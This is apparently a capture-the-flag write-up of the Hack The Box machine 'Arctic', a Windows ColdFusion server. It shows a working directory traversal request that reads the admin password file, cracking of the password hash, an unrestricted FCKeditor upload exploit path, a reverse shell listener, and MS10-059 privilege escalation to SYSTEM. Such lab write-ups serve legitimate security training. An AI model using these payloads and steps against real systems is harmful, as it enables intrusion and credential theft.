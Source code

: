 Box: Windows
Level: Easy
### Index
1. Locating nmap NSE script 
2. Enumerating RPC
3. Adobe Cold Fusion FCKEditor File upload vulnerability. [CVE-2009-2265](https://www.exploit-db.com/exploits/50057)
4. Upgrading the NetCat Shell (Gained by executing the python exploit) to Meterpreter shell and then running local exploit suggester.
5. MS10-059: Chimichurri was used for Priv Esc.



Initial Enumeration (subdomain, vhosts, directories/files)

```
$ nmap -p- --min-rate=1000 -Pn -T4 -sC -sV 10.10.10.11 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-01 00:49 EDT
Nmap scan report for arctic.htb (10.10.10.11)

PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp  open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

Just because port 135 is open. Trying out RPC Enum
```
$ locate -r nse$ | grep msrpc  
/usr/share/nmap/scripts/msrpc-enum.nse

$ sudo nmap -p135 --script=msrpc-enum -sS -sC -sV 10.10.10.11
PORT    STATE SERVICE VERSION
135/tcp open  msrpc   Microsoft Windows RPC
```

Upon access the site on port 8500, the CVE-2010-2861 Directory Traversal Vulnerability was present. I read the [PoC ](https://github.com/vulhub/vulhub/blob/master/coldfusion/CVE-2010-2861/README.md) and found the backend admin password.
```
Request:
GET /CFIDE/administrator/enter.cfm?locale=../../../../../../../lib/password.properties%00en HTTP/1.1
Host: arctic.htb:8500
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Cookie: CFID=200; CFTOKEN=84509656
Upgrade-Insecure-Requests: 1

Response:
<title>#Wed Mar 22 20:53:51 EET 2017
rdspassword=0IA/F[[E>[$_6& \\Q>[K\=XP  \n
password=2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
encrypted=true</title>
```

using auxiliary/scanner/http/coldfusion_locale_traversal in msf
```
use auxiliary/scanner/http/coldfusion_locale_traversal
```

Trying to identify the hash as well
```
$>$hashid 2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03
Analyzing '2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03'
[+] SHA-1 
[+] Double SHA-1 
[+] RIPEMD-160 
[+] Haval-160 
[+] Tiger-160 
[+] HAS-160 
[+] LinkedIn 
[+] Skein-256(160) 
[+] Skein-512(160) 

```

Cracking the above hash and got the admin password for Adobe Coldfusion
```
$ hashcat -m 100 -a 0 2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03 /usr/share/wordlists/rockyou.txt
2f635f6d20e3fde0c53075a84b68fb07dcec9b03:happyday  

If you have cracked the above hash and you'd like to re-crack it for the demonstration purpose than you can use the following command
$ hashcat -m 100 -a 0 2F635F6D20E3FDE0C53075A84B68FB07DCEC9B03 /usr/share/wordlists/rockyou.txt --show
2f635f6d20e3fde0c53075a84b68fb07dcec9b03:happyday 
```

After digging into Admin Panel, I did not find any place to host my reverse Shell. I was able to create archives, backups, connectors but nothing was helping me to host my shell. Under the system settings in Admin panel, i notice that the user 'tolis' is mention and the adobe cold fusion is deployed as user 'tolis'. I googled ColdFusion RCE and found this [Exploit-DB](https://www.exploit-db.com/exploits/50057) exploit which is CVE-2009-2265. The vulnerability exist in FCKeditor and the path to upload files is unrestricted. However, I was not able to locate where is the FCKeditor from the Admin panel. I have the exploit. Felt like I'm just a noob that don't know what the exploit is doing. But Reading the [GitHub Repo](https://github.com/0xConstant/CVE-2009-2265 ) make little bit things clear in my brain. 

After reading [This Article](https://codewatch.org/2013/12/07/manually-penetrating-the-fckedit-vulnerability-cve-2009-2265/) Things were little bit clear that during my earlier enumeration, I forgot to take a look at the following path when I open http://arctic.htb:8500/ 
```
/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/
```

Now the Exploit-DB exploit that I have used earlier, make sense that my JSP shell is being uploaded to the following location.
```
/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=/{filename}.jsp%00
```

I have the path present on my target and I use the exploit to capture the Tolis user flag. 

# Shell Upgrading Notes

My python exploit code has the following line. 
```
os.system(f'nc -nlvp {lport}')
```

I comment out the above line in the python exploit and use the following msf module to start the netcat listener so that I can capture the meterpreter shell instead of the netcat shell.
```
msf>use exploit/multi/handler
msf>set LHOST 10.10.16.5
msf>set LPORT 4444
msf>run
[*] Started reverse TCP handler on 10.10.16.5:4444 

[*] Command shell session 1 opened (10.10.16.5:4444 -> 10.10.10.11:55411) at 2024-08-06 00:15:27 -0400

Now use CTRL+Z to throw the shell in the background and use 'local_exploit_suggester'. For this machine it was not helpful. Still i tried.
```

# Privilege Escalation 

### Initial Enum using winPEAS.bat

UAC is Enabled. but according to HackTricks, I need a GUI access
```
 [+] UAC Settings                                                                                                                                                       
   [i] If the results read ENABLELUA REG_DWORD 0x1, part or all of the UAC components are on                                                                            
   [?] https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#basic-uac-bypass-full-file-system-access           
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System                                                                            
    EnableLUA    REG_DWORD    0x1
```

I tried mimikatz.exe and I did not have any good luck there. Reading the Machine Info on Hack The Box, i notice that it was mention that "privilege escalation is achieved using the MS10-059 exploit. " [This Exploit](https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059%3A%20Chimichurri/Compiled) was used to obtained the Administrator Shell and root flag.

```
$ nc -lvnp 8000                                                                      
listening on [any] 8000 ...
connect to [10.10.16.5] from (UNKNOWN) [10.10.10.11] 55575
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Users\tolis\Documents>whoami
whoami
nt authority\system

C:\Users\Administrator\Desktop>more root.txt
more root.txt
fcb***********************
```


